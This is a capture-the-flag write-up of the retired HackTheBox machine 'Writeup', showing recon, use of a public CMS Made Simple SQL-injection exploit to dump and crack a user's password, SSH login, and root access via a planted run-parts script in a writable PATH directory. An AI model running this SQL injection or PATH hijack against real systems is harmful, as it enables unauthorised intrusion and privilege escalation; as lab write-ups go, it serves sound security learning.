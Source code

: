 Title:HTB: Writeup
Date: 10-12-2019 21:52
category:security
tags:security, boot2root, HTB, exploit, linux
meta:security, boot2root, HTB, exploit, linux

<img class="align-left" src="/media/2019.10/writeup_card.png" alt="Writeup Card" width="262">

This article is a writeup about a retired HacktheBox machine:
[Writeup](https://www.hackthebox.com/home/machines/profile/192).
(*Yes the machine name is writeup, searching a writeup for writeup will be a
funny thing.*).
The machine is classed as an easy one. It involves vulnerability in a known CMS
as well as "PATH vulnerability" for the privilege escalation.

<!-- PELICAN_END_SUMMARY -->

[TOC]

# Recon

First of all we start by scanning the machine's open ports with nmap. Only port
22 (SSH) and 80 (HTTP) are open:

    :::text
    # Nmap 7.80 scan initiated Sun Sep 22 16:08:28 2019 as: nmap -oA nmap -sSV 10.10.10.138
    Nmap scan report for 10.10.10.138
    Host is up (0.089s latency).
    Not shown: 998 filtered ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
    80/tcp open  http    Apache httpd 2.4.25 ((Debian))
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sun Sep 22 16:08:43 2019 -- 1 IP address (1 host up) scanned in 15.20 seconds

# Web, getting user

The homepage of this website is ugly and say that there is nothing there yet.
We take a look to `robots.txt`:

    :::text
    #              __
    #      _(\    |@@|
    #     (__/\__ \--/ __
    #        \___|----|  |   __
    #            \ }{ /\ )_ / _\
    #            /\__/\ \__O (__
    #           (--/\--)    \__/
    #           _)(  )(_
    #          `---''---`

    # Disallow access to the blog until content is finished.
    User-agent: * 
    Disallow: /writeup/

Let's take a look at `/writeup/`! We have there another website. When looking at
the page source code we notice the use of "CMS Made Simple" a CMS with a few
vulnerabilities.

    :::html
    <!doctype html>
    <html lang="en_US"><head>
      <title>Home - writeup</title>

    <base href="http://10.10.10.138/writeup/" />
    <meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />

Let's search for exploits, a few of them are available:

    :::text
    # searchsploit 'made simple'
    -------------------------------------------------------------------------------------- ----------------------------------
     Exploit Title                                                                        |  Path
                                                                                          | (/usr/share/exploitdb/)
    -------------------------------------------------------------------------------------- ----------------------------------
    CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Code Execution (Metasploit)    | exploits/php/remote/46627.rb
    CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion                               | exploits/php/webapps/26217.html
    CMS Made Simple 0.10 - 'index.php' Cross-Site Scripting                               | exploits/php/webapps/26298.txt
    CMS Made Simple 1.0.2 - 'SearchInput' Cross-Site Scripting                            | exploits/php/webapps/29272.txt
    CMS Made Simple 1.0.5 - 'Stylesheet.php' SQL Injection                                | exploits/php/webapps/29941.txt
    CMS Made Simple 1.11.10 - Multiple Cross-Site Scripting Vulnerabilities               | exploits/php/webapps/32668.txt
    CMS Made Simple 1.11.9 - Multiple Vulnerabilities                                     | exploits/php/webapps/43889.txt
    CMS Made Simple 1.2 - Remote Code Execution                                           | exploits/php/webapps/4442.txt
    CMS Made Simple 1.2.2 Module TinyMCE - SQL Injection                                  | exploits/php/webapps/4810.txt
    CMS Made Simple 1.2.4 Module FileManager - Arbitrary File Upload                      | exploits/php/webapps/5600.php
    CMS Made Simple 1.4.1 - Local File Inclusion                                          | exploits/php/webapps/7285.txt
    CMS Made Simple 1.6.2 - Local File Disclosure                                         | exploits/php/webapps/9407.txt
    CMS Made Simple 1.6.6 - Local File Inclusion / Cross-Site Scripting                   | exploits/php/webapps/33643.txt
    CMS Made Simple 1.6.6 - Multiple Vulnerabilities                                      | exploits/php/webapps/11424.txt
    CMS Made Simple 1.7 - Cross-Site Request Forgery                                      | exploits/php/webapps/12009.html
    CMS Made Simple 1.8 - 'default_cms_lang' Local File Inclusion                         | exploits/php/webapps/34299.py
    CMS Made Simple 1.x - Cross-Site Scripting / Cross-Site Request Forgery               | exploits/php/webapps/34068.html
    CMS Made Simple 2.1.6 - Multiple Vulnerabilities                                      | exploits/php/webapps/41997.txt
    CMS Made Simple 2.1.6 - Remote Code Execution                                         | exploits/php/webapps/44192.txt
    CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execution                         | exploits/php/webapps/44976.py
    CMS Made Simple 2.2.7 - (Authenticated) Remote Code Execution                         | exploits/php/webapps/45793.py
    CMS Made Simple < 1.12.1 / < 2.1.3 - Web Server Cache Poisoning                       | exploits/php/webapps/39760.txt
    CMS Made Simple < 2.2.10 - SQL Injection                                              | exploits/php/webapps/46635.py
    CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File Upload                      | exploits/php/webapps/34300.py
    CMS Made Simple Module Download Manager 1.4.1 - Arbitrary File Upload                 | exploits/php/webapps/34298.py
    CMS Made Simple Showtime2 Module 3.6.2 - (Authenticated) Arbitrary File Upload        | exploits/php/webapps/46546.py
    -------------------------------------------------------------------------------------- ----------------------------------
    Shellcodes: No Result

As we are not authenticated, The one that interest us is "CMS Made Simple <
2.2.10 - SQL Injection (exploits/php/webapps/46635.py). We run the exploit
(admire the beauty of the display). We then get a username, an email, a password
salt and a password hash.

    :::text
    python 46635.py -u http://10.10.10.138/writeup
    [+] Salt for password found: 5a599ef579066807
    [+] Username found: jkr
    [+] Email found: jkr@writeup.htb
    [+] Password found: 62def4866937f08cc13bab43bb14e6f7

The exploit also allow to crack the password using a dictionary. We run
"rockyou" against it and found jkr password.

    :::text
    # python 46635.py --crack -w ./rockyou.txt -u http://10.10.10.138/writeup
    [+] Salt for password found: 5a599ef579066807
    [+] Username found: jkr
    [+] Email found: jkr@writeup.htb
    [+] Password found: 62def4866937f08cc13bab43bb14e6f7
    [+] Password cracked: raykayjay9

With this password we are able to connect to the box using SSH and get the user
password:

    :::text
    # ssh jkr@10.10.10.138
    jkr@10.10.10.138's password: 
    Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

    The programs included with the Devuan GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Sun Sep 22 12:31:00 2019 from 10.10.14.237
    jkr@writeup:~$ cat user.txt 
    d4e493<redacted>

# Root

We enumerate the box without a lot of success. A quick read of the box forum
recommend to run [pspy](https://github.com/DominicBreuker/pspy) on the box. We
discover that a script is run every time an user connect with SSH.

    :::text
    2019/09/25 07:39:49 CMD: UID=0    PID=4352   | sshd: [accepted]
    2019/09/25 07:39:49 CMD: UID=0    PID=4353   | sshd: [accepted]  
    2019/09/25 07:40:01 CMD: UID=0    PID=4354   | sshd: jkr [priv]  
    2019/09/25 07:40:01 CMD: UID=0    PID=4355   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
    2019/09/25 07:40:01 CMD: UID=0    PID=4356   | run-parts --lsbsysinit /etc/update-motd.d 

The PATH is fixed by the command line and there is no `run-parts` binary in the
first folder `/usr/local/sbin`. Moreover this folder is writable. Therefore
we write a simple file `/usr/local/sbin/run-parts` and give it the execution
permission:

    :::text
    jkr@writeup:~$ vim /usr/local/sbin/run-parts
    #!/bin/bash
    cat /root/root.txt > /tmp/lool/b
    rm /tmp/lool/b

    jkr@writeup:~$ chmod +x /usr/local/sbin/run-parts

We create a directory in `/tmp/` and write the `b` file. At the same time be
connect by SSH with the jkr user. We get the root flag

    :::text
    jkr@writeup:~$ mkdir /tmp/lool/
    jkr@writeup:~$ echo a > /tmp/lool/b
    jkr@writeup:~$ tail -f /tmp/lool/b
    a
    tail: /tmp/lool/b: file truncated
    eeba4<redacted>

# Wrapping up

The user step implied only to use a know exploit without any change. The
privilege escalation was really interesting as I didn't use
[pspy](https://github.com/DominicBreuker/pspy) before.

